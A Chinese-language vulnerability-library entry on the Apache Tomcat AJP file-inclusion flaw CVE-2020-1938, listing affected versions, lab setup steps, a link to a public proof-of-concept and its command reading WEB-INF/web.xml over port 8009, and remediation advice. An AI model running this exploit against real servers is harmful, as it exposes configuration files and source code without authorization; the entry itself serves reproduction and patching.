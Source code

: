```yaml
---
title: 'Apache-Tomcat-Ajp文件包含CVE-2020-1938'
date: Fri, 04 Sep 2020 05:14:43 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

Apache Tomcat 6 Apache Tomcat 7 < 7.0.100 Apache Tomcat 8 < 8.5.51 Apache Tomcat 9 < 9.0.31

### 漏洞简介

Apache Tomcat服务器存在文件包含漏洞，攻击者可利用该漏洞读取或包含 Tomcat 上所有 webapp 目录下的任意文件，如：webapp 配置文件或源代码等。

由于Tomcat默认开启的AJP服务（8009端口）存在一处文件包含缺陷，攻击者可构造恶意的请求包进行文件包含操作，进而读取受影响Tomcat服务器上的Web目录文件。

### 复现利用

搭建环境 克隆实验环境

```
git clone https://github.com/laolisafe/CVE-2020-1938
```

解压Apache

```
unzip apache-tomcat-8.5.32.zip
```

在Apache的bin目录下，添加执行权限，我这里给全部权限

```
chmod -R +x bin/
```

启动apache

```
sh startup.sh
```

查看端口，8009端口是开启的 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/tomcat.png)

利用漏洞 poc下载地址：[https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi) 注意poc为py2环境

```
python ./ CNVD-2020-10487-Tomcat-Ajp-lfi.py 本地ip –p 8009 –f WEB-INF/web.xml
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/09/截图20200220231832.png)

### 漏洞修复建议

1.临时禁用AJP协议端口，在conf/server.xml配置文件中注释掉 2、配置ajp配置中的secretRequired跟secret属性来限制认证 3、官方下载最新版下载地址： [https://tomcat.apache.org/download-70.cgi](https://tomcat.apache.org/download-70.cgi) [https://tomcat.apache.org/download-80.cgi](https://tomcat.apache.org/download-80.cgi) [https://tomcat.apache.org/download-90.cgi](https://tomcat.apache.org/download-90.cgi)